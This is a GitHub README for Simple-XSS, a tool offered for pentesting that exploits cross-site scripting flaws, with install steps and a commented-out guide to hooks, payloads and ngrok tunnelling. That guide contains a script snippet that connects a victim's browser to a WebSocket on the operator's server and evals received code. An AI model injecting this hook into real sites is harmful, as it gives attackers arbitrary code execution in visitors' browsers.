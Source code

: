 # Simple-XSS

<p align="center">
  <img src="resources/images/logo.png"  alt="Simple-XSS logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.2/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multi-platform cross-site scripting (XSS) vulnerability exploitation tool for pentesting.

Problems solved by Simple-XSS:

- [x] Easy creatable payloads & hooks
- [x] Support of several payload delivering protocols
- [x] Support of several tunneling services (to deliver payload even without white IP)

**Disclaimer:** This program is provided for educational and research purposes only.
The creator of this program does not condone or support any illegal or malicious activity,
and will not be held responsible for any such actions taken by others who may use this program.
By downloading or using this program, you acknowledge that you are solely responsible for any consequences
that may result from the use of this program.

## Vocabulary

**Hook** - snippet of JS code designed to be injected via XSS on the client side.

**Payload** - a program that will be launched remotely in the client’s browser.

## Usage

## Status

**V0.3 - indev**

### GUI-Guide

[//]: # (> Use `--help` argument to get help.)

[//]: # (![commandline help]&#40;docs/help.png&#41;)

[//]: # ()

[//]: # (### GUI-Guide)

[//]: # ()

[//]: # (Firstly, choose the hook. [Default hook]&#40;hooks/default&#41; is the simplest hook, it is only suitable for forms without XSS)

[//]: # (protection:)

[//]: # ()

[//]: # (![step 1]&#40;docs/step_1.png&#41;)

[//]: # ()

[//]: # (Then, choose the payload. [Hello world payload]&#40;payloads/hello_world&#41; is an example payload, it just alerts "Hello,)

[//]: # (World!":)

[//]: # ()

[//]: # (![step 2]&#40;docs/step_2.png&#41;)

[//]: # ()

[//]: # (Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:)

[//]: # ()

[//]: # (1&#41; use one of the suggested tunneling apps &#40;now it's only [ngrok]&#40;https://ngrok.com/&#41;&#41;)

[//]: # (2&#41; tunnel ports yourself and pass the public URL of the HTTP tunnel to the program)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_1.png&#41;)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_2.png&#41;)

[//]: # ()

[//]: # (Finally, you can run the process!)

[//]: # ()

[//]: # (![step 4]&#40;docs/step_4.png&#41;)

[//]: # ()

[//]: # (Now you can copy the hook and start hunting ;D)

[//]: # ()

[//]: # (![step 5]&#40;docs/step_5.png&#41;)

[//]: # ()

[//]: # (To demonstrate the possibilities, we can use site [xss-game.appspot.com]&#40;https://xss-game.appspot.com/&#41;.)

[//]: # (Enter the hook into search form:)

[//]: # ()

[//]: # (![step 6]&#40;docs/step_6.png&#41;)

[//]: # ()

[//]: # (Press "Search". As you can see, we have the alert dialog!)

[//]: # ()

[//]: # (![step 7]&#40;docs/step_7.png&#41;)

[//]: # ()

[//]: # (Also, we have "Hello, World!" in our console:)

[//]: # (![step 8]&#40;docs/step_8.png&#41;)

[//]: # ()

[//]: # (### Hook)

[//]: # ()

[//]: # (> _Hooks folder: [hooks]&#40;hooks&#41;_)

[//]: # ()

[//]: # (**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:)

[//]: # ()

[//]: # (```html)

[//]: # ()

[//]: # (<script>c = new WebSocket&#40;'{{environment.public_url}}'&#41;;)

[//]: # (c.onmessage = &#40;e&#41; => eval&#40;e.data&#41;;</script>)

[//]: # (```)

[//]: # ()

[//]: # (**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about)

[//]: # (this below._)

[//]: # ()

[//]: # (This is a [default]&#40;hooks/default&#41; hook. When it's embedded in the vulnerable form, it downloads the JS)

[//]: # (code &#40;[payload]&#40;#payload&#41;&#41; via)

[//]: # (WebSockets)

[//]: # (protocol from the server and)

[//]: # (executes it using [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Hook has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- hook_folder)

[//]: # (    |)

[//]: # (    +-- hook.html)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (```)

[//]: # ()

[//]: # (**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about hook such as name, description, author and version.)

[//]: # ()

[//]: # (### Payload)

[//]: # ()

[//]: # (> _Payloads folder: [payloads]&#40;payloads&#41;_)

[//]: # ()

[//]: # (**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed)

[//]: # (with [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Payload has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- payload_folder)

[//]: # (    |)

[//]: # (    +-- payload.js)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (    |)

[//]: # (    +-- init.py)

[//]: # (```)

[//]: # ()

[//]: # (**payload.js** - main file, contains arbitrary JS code.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about payload such as name, description, author and version.)

[//]: # ()

[//]: # (**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload)

[//]: # (&#40;payload.js&#41; via WebSockets protocol.)

[//]: # ()

[//]: # (### Templating)

[//]: # ()

[//]: # (**Built-in objects** is an objects passed into hook & payload main files)

[//]: # (using [Jinja]&#40;https://jinja.palletsprojects.com/&#41;)

[//]: # (templating engine. It contains additional information that may be needed when loading a hook or payload.)

[//]: # ()

[//]: # (#### Environment)

[//]: # ()

[//]: # (- **public_url** - public address of WebSocket server)

[//]: # ()

[//]: # (#### Metadata)

[//]: # ()

[//]: # (**package** - hook or payload)

[//]: # ()

[//]: # (- **name** - name of package)

[//]: # (- **author** - package author)

[//]: # (- **version** - version of package)

[//]: # (- **description** - package description)

[//]: # ()

[//]: # (If you need to use some variable, just use such construction: {{object.variable}}.)

[//]: # (For example:)

[//]: # ()

[//]: # (```)

[//]: # (alert&#40;'{{metadata.name}} - V{{metadata.version}}'&#41;)

[//]: # (```)

[//]: # ()

[//]: # (The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.)

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

### WEB

### Command-Line

## Warning

In favor of ease of use and expanded capabilities, we had to sacrifice backward compatibility between versions 0.2 and
0.3. The features of the previous version are retained and expanded, but older versions of hook & payload will not work.

## Installation

**Note:** _make sure you have installed [Python 3.11](https://www.python.org/downloads/release/python-3115/)_

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install the requirements:

**For Window:**

```commandline
cd Simple-XSS
pip install -r requirements/windows.txt
```

**For Linux:**

```commandline
cd Simple-XSS
pip install -r  requirements/linux.txt
```

And finally you can launch it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
